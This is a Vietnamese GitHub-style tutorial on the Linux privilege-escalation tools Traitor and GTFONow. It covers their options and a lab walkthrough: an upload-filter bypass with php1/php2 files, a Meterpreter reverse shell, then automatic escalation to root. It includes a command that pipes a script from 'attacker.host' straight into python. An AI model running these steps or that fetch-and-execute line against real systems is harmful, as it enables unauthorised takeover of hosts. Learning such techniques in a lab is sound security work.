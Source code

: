 # Traitor
## Giới thiệu
[https://github.com/liamg/traitor](https://github.com/liamg/traitor)
- Một tool tự động tìm các misconfiguration và khai thác chúng để leo quyền root
- Các lỗ hổng mà tool này có thể khai thác ![image](https://github.com/Myozz/everyTools/assets/94811005/e68717fd-b309-482d-8f4f-fe9269831e5a)
- Đây là một tool không được cập nhật kể từ 2022 nên có thể thiếu các vuln hay misconfig mới
## Các tuỳ chọn chính
- Nếu chỉ chạy tool mà không có bất kì flag nào thì tool sẽ tìm các vuln/misconfig mà có thể sử dụng để leo quyền
- ```-p```: Cung cấp password của người dùng hiện tại của mục tiêu (dùng để xác thực trong trường hợp cần thiết)
- ```-a```: Thử khai thác từng lỗ hổng có thể, dừng lại khi lấy được root shell
- ```-e```: Chỉ định misconfig/vuln để khai thác trên mục tiêu
# GTFOnow
- Link: [https://github.com/Frissi0n/GTFONow](https://github.com/Frissi0n/GTFONow)
- Một tool có khả năng khai thác hầu hết các misconfig trên GTFObin, và vẫn được cập nhật cho tới thời điểm hiện tại
- Có thể exploit bằng curl thay vì phải upload lên mục tiêu

      curl http://attacker.host/gtfonow.py | python
## Các tuỳ chọn chính
- ```--level <LEVEL>```: Tuỳ chỉnh giữa 2 level:
  - ```1```: Tuỳ chọn mặc định, quét nhanh mục tiêu
  - ```2```: Tuỳ chọn cho phép quét rộng hơn
- ```--risk <RISK>```: Mức độ rủi ro
  - ```1```: Tuỳ chọn mặc định, đảm bảo an toàn cho mục tiêu
  - ```2```: Tool sẽ tự động chỉnh sửa một số file cần thiết, chỉ nên sử dụng khi đã nắm rõ chúng làm những gì
- ```--command <COMMAND>```: Thực hiện một câu lệnh sau khi đã leo quyền thành công
- ```--auto```: Tự động khai thác thay vì yêu cầu chúng ta chọn
- ```-v```: Theo dõi tiến độ khi khai thác 
## Thử nghiệm
- Ta sẽ thực hiện qua một lab upload vuln ![image](https://github.com/Myozz/everyTools/assets/94811005/8c3a5213-aeac-4cee-ac09-68307936bfd1
- Sử dụng các công cụ tìm path/dir trên mục tiêu ta biết được mục tiêu lưu file tại path ```/uploads```
- Tiếp tục kiểm tra xem mục tiêu cho phép upload định dạng file nào, có thể tham khảo qua [https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln](https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln)
- Sau khi thực hiện kiểm tra, ta thấy được có thể sử dụng các định dạng file php1, php2,... (trừ php) có thể được sử dụng để khai thác
- Thực hiện tạo payload với định dạng file như trên, tham khảo các tool tạo payload ở [đây](https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln/Payloads)
- Upload payload vừa tạo được lên mục tiêu (Có thể tận dụng tool filepwner ở [https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln](https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln) để upload file qua config của nó, rồi thực hiện reverse shell (nên sử dụng meterpreter để có thể upload các công cụ kể trên lên mục tiêu
- Sau khi có được Meterpreter, bây giờ ta sẽ thử upload file GTFOnow lên mục tiêu bằng lệnh ```upload``` và dùng lệnh ```shell``` để thực thi lệnh trên mục tiêu ![image](https://github.com/Myozz/everyTools/assets/94811005/54420ce7-9162-4395-854c-81e747478410)
- Thực thi lệnh ```python gtfonow.py -a``` để bắt đầu khai thác tự động ![image](https://github.com/Myozz/everyTools/assets/94811005/c41eb7a8-29fa-425c-a729-b11adff819fb) 
- Như vậy là ta đã thành công leo quyền root lên mục tiêu

